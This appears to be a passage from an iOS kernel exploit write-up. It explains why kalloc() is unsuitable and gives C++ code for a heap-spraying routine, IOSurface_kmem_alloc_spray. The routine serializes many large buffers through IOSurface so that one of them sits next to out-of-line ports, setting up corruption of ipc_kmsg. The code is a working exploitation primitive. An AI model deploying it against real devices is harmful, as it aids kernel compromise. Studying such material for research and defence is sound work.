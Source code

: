 Also, this memory cannot be allocated with `kalloc()`.

`kalloc()` sets `KMA_ATOMIC` flag, which means the allocation cannot be partially freed — as would be required when freeing corrupted `ipc_kmsg`.

Therefore we use IOSurface to perform spray, which internally calls `kmem_alloc()`.

We spray `count = 640` buffers of `size = 80 MB`, each filled with `0x42…`.

One of those 640 allocations will end up located immediately after OOL ports.

```cpp
int IOSurface_kmem_alloc_spray(void *data, uint32_t size, int count, uint32_t kalloc_key) {
    if (size < pagesize) {
        printf("[-][IOSurface] Size too small for kmem_alloc\n");
        return KERN_FAILURE;
    }
    if (size > 0x00ffffff) {
        printf("[-][IOSurface] Size too big for OSUnserializeBinary\n");
        return KERN_FAILURE;
    }
    if (count > 0x00ffffff) {
        printf("[-][IOSurface] Size too big for OSUnserializeBinary\n");
        return KERN_FAILURE;
    }
    
    size_t args_size = sizeof(struct IOSurfaceValueArgs) + count * (((size + 3)/4) * 4) + 6 * 4 + count * 4;
    
    struct IOSurfaceValueArgs *args = calloc(1, args_size);
    args->surface_id = IOSurface_id;
    
    int i = 0;
    args->xml[i++] = kOSSerializeBinarySignature;                         //<kOSSerializeBinarySignature /> 
    args->xml[i++] = kOSSerializeArray | 2 | kOSSerializeEndCollection;    //<array capacity="2">
    args->xml[i++] = kOSSerializeArray | count;                           //<array capacity="count">    
    for (int c = 0; c < count; c++) {
        args->xml[i++] = kOSSerializeData | size | ((c == count - 1) ? kOSSerializeEndCollection : 0);  //<data length="size">
        memcpy(&args->xml[i], data, size);  //...data...
        i += (size + 3)/4;  //</data>
    }
    args->xml[i++] = kOSSerializeSymbol | 5 | kOSSerializeEndCollection;    //<sym len="5">
    args->xml[i++] = kalloc_key;                                            //key</sym></array>
    args->xml[i++] = 0;                                                     //Null-terminate
    
    // <kOSSerializeBinarySignature />
    // <kOSSerializeArray>2</kOSSerializeArray>
    // <kOSSerializeArray capacity=${count}>
    //     <kOSSerializeData length=${size}>${data}</kOSSerializeData>
    //     ...
    // </kOSSerializeArray>
    // <kOSSerializeSymbol length=5>
    //     ${kalloc_key}
    // </kOSSerializeSymbol>
    // 0 // Null-terminate      
    

    kern_return_t ret = IOSurface_set_value(args, args_size);
    free(args);
    return ret;
}

...
```